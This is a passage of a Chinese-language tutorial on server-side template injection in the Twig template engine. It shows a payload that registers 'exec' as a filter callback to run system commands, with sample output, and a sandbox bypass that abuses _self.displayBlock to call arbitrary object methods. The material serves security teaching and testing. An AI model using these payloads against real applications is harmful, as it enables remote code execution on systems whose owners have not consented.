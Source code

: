 我们只需注册 exec 为 filter 的回调函数，并如此调用：

```
{% assign openTag = '{{' %}
{{ openTag }}_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
//返回结果： uid=1000(k) gid=1000(k) groups=1000(k),10(wheel)
```

##### Twig（沙箱模式）

Twig 的沙箱模式有额外的限制。它会禁用一部分函数（包括开发者提供的对象），因此我们并不能调用有价值的东西。万幸的是，这部分代码帮助我们突破限制：

```twig
public function checkMethodAllowed($obj, $method)
{
  if ($obj instanceof Twig_TemplateInterface || $obj instanceof Twig_Markup) {
  return true;
}
```

这里，我们可以调用实现 Twig_TemplateInterface 的对象，也就是说我们可以简介使用 _self.，_self.中的 displayBlock 让我们更上一层楼：

```php
public function displayBlock($name, array $context, array $blocks = array(), $useBlocks =
true)
{
  $name = (string) $name;
    if ($useBlocks && isset($blocks[$name])) {
    $template = $blocks[$name][0];
    $block = $blocks[$name][1];
  } elseif (isset($this->blocks[$name])) {
    $template = $this->blocks[$name][0];
    $block = $this->blocks[$name][1];
  } else {
    $template = null;
    $block = null;
  }
  if (null !== $template) {
    try {
      $template->$block($context, $blocks);
    } catch (Twig_Error $e) {
```

我们可以用

```
$template ->$block($context, $blocks)
```

绕过白名单限制。以下的代码会调用 userObject 对象的 vulnerableMethod：

```
{% assign openTag = '{{' %}
{{ openTag }}_self.displayBlock("id",[],{"id":[userObject,"vulnerableMethod"]})}}
```

虽然现在不能获得化境变量，但我们可以利用 _context 属性查找开发者自定义的对象并调用有用的目标。
